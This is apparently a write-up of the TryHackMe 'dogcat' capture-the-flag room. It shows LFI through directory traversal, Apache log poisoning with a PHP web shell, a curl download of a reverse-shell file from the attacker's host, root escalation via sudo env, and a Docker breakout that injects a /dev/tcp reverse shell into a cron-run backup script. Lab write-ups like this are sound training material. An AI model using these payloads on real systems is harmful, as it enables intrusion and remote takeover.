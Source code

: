 ```yaml
---
title: dogcat
published: true
tags: [php, lfi, docker, security]
---
```


<https://tryhackme.com/room/dogcat> a website where you can look at pictures of dogs and/or cats! Exploit a PHP application via LFI and break out of a docker container.

* * * 

# Notes

4 flags for this task.

start by booting up the machine and performing my nmap scans. `nmap -p- dogcat.thm -vvv`. Also check out the website. Here we see a question cats or dogs...hard choice both good but these seem to be calling a view function in the php. Should see if we can check for LFI. Booting up burpsuite.

lets try to bypass with directory traversal

<img src="/assets/dogcat01.png" alt="Dog Cat">

the base64 is the encoded index.php

```
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

going to run a few gobuster scans 

- `gobuster dir -u http://dogcat.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 100 -x txt,php`

and

- `gobuster dir -u http://dogcat.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x txt,php`

we find a few different files, flag.php 

```
/index.php            (Status: 200) [Size: 418]
/cat.php              (Status: 200) [Size: 26]
/flag.php             (Status: 200) [Size: 0]
/cats                 (Status: 301) [Size: 307] [--> http://dogcat.thm/cats/]
/dogs                 (Status: 301) [Size: 307] [--> http://dogcat.thm/dogs/]
/dog.php              (Status: 200) [Size: 26]
```

sending the request for flag.php through burpsuite repeater gets us our first flag.

our nmap scan shows the server is running apache. we can try to get code execution with log poisoning.

access the log for apache is at `/var/log/apache2/access.log` so we can try to view it like this `/?view=./dog/../../../../../../../var/log/apache2/access/log&ext`

we can edit our user-agent parameter to this php script to use for the log code execution `<?php system($_GET['cmd']);?>`

- `GET /?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=whoami HTTP/1.1`

we can see the response www-data. lets try to get a reverse shell.

setting up pwncat listener. `pwncat-cs -lp 6669`, and gets get a pentestmonkey shell from <a href="https://www.revshells.com/">revshells.com</a> and setup a python webserver then curl or wget it to the server.

- `GET /?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=curl+http%3a//10.2.3.64/rev.php+-o+rev.php`

we are now setup on the system with a www-data reverse shell. we can run linpeas in tmp to check for quick escalation.

checking `sudo -l` we are allowed to run `env` as root. `env` we can used this to break out of this enviroment by spawning an interactive shell with `sudo env /bin/sh`.

we can pickup the 3rd flag in `/root/`

missing the second flag... quick `find / -name *flag` finds it.

now time to break out of the docker.

checking the backup we can see that the date is much more recent than the script so the backup much be run regularly on the target machine. we can take advantage of this and edit the script to send us back a reverse shell.

```
(remote) root@3754df62901f:/opt/backups$ echo "#!/bin/bash" > backup.sh
(remote) root@3754df62901f:/opt/backups$ echo "sh -i >& /dev/tcp/10.2.3.64/6669 0>&1" >> backup.sh
```

and we should recieve a connection back soon on 6669

```
(local) pwncat$ listeners
                           Listeners                            
     ╷         ╷              ╷          ╷           ╷          
  ID │ State   │ Address      │ Platform │ Remaining │ Pending  
 ════╪═════════╪══════════════╪══════════╪═══════════╪═════════ 
  0  │ RUNNING │ 0.0.0.0:6669 │ linux    │ inf       │ 0        
     ╵         ╵              ╵          ╵           ╵          
[04:44:04] 10.10.48.124:48848: normalizing shell path                                                                                                                                               manager.py:957
[04:44:06] 10.10.48.124:48848: upgrading from /bin/dash to /bin/bash                                                                                                                                manager.py:957
[04:44:08] 10.10.48.124:48848: registered new host w/ db                                                                                                                                            manager.py:957
(local) pwncat$ sessions
[04:44:41] listener: 0.0.0.0:6669: connection from 10.10.48.124:48848 aborted: channel receive timed out: b'RNuShuMhU7VfPUvEQ\n/c/pass 1512 4 0ca02  1 0  16712437 18949835249 0 6\nCUaT8\nEBfk6\n' manager.py:957
           warning: 10.10.48.124:48848: channel closed                                                                                                                                              manager.py:957
(local) pwncat$ sessions
                                    Active Sessions                                    
     ╷      ╷                                  ╷          ╷      ╷                     
  ID │ User │ Host ID                          │ Platform │ Type │ Address             
 ════╪══════╪══════════════════════════════════╪══════════╪══════╪════════════════════ 
  *0 │ root │ 702c415b79e2b5e04ee55d702cb3e767 │ linux    │ Bind │ 10.10.48.124:35818  
     ╵      ╵                                  ╵          ╵      ╵                     
(local) pwncat$ listeners
                           Listeners                            
     ╷         ╷              ╷          ╷           ╷          
  ID │ State   │ Address      │ Platform │ Remaining │ Pending  
 ════╪═════════╪══════════════╪══════════╪═══════════╪═════════ 
  0  │ RUNNING │ 0.0.0.0:6669 │ linux    │ inf       │ 0        
     ╵         ╵              ╵          ╵           ╵          
[04:45:04] 10.10.48.124:48850: normalizing shell path                                                                                                                                               manager.py:957
[04:45:06] 10.10.48.124:48850: upgrading from /bin/dash to /bin/bash                                                                                                                                manager.py:957
[04:45:08] 10.10.48.124:48850: loaded known host from db                                                                                                                                            manager.py:957
[04:45:11] listener: 0.0.0.0:6669: linux session from 10.10.48.124:48850 established                                                                                                                manager.py:957
(local) pwncat$ sessions
                                     Active Sessions                                     
     ╷      ╷                                  ╷          ╷        ╷                     
  ID │ User │ Host ID                          │ Platform │ Type   │ Address             
 ════╪══════╪══════════════════════════════════╪══════════╪════════╪════════════════════ 
  0  │ root │ 702c415b79e2b5e04ee55d702cb3e767 │ linux    │ Bind   │ 10.10.48.124:35818  
  *1 │ root │ 6fce223e51db7cddc12b57468a770298 │ linux    │ Socket │ 10.10.48.124:48850  
     ╵      ╵                                  ╵          ╵        ╵                     
(local) pwncat$ sessions 1
[04:45:30] targeting session-1 (10.10.48.124:48850)                                                                                                                                                 sessions.py:88
(local) pwncat$                                                                                                                                                                                                   
(remote) root@dogcat:/root# ls -las
total 40
4 drwx------  6 root root 4096 Apr  8  2020 .
4 drwxr-xr-x 24 root root 4096 Apr  8  2020 ..
0 lrwxrwxrwx  1 root root    9 Mar 10  2020 .bash_history -> /dev/null
4 -rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
4 drwx------  2 root root 4096 Apr  8  2020 .cache
4 drwxr-xr-x  5 root root 4096 Mar 10  2020 container
4 -rw-r--r--  1 root root   80 Mar 10  2020 flag4.txt
4 drwx------  3 root root 4096 Apr  8  2020 .gnupg
4 drwxr-xr-x  3 root root 4096 Apr  8  2020 .local
4 -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4 -rw-r--r--  1 root root   66 Mar 10  2020 .selected_editor
(remote) root@dogcat:/root# cat flag4.txt
```


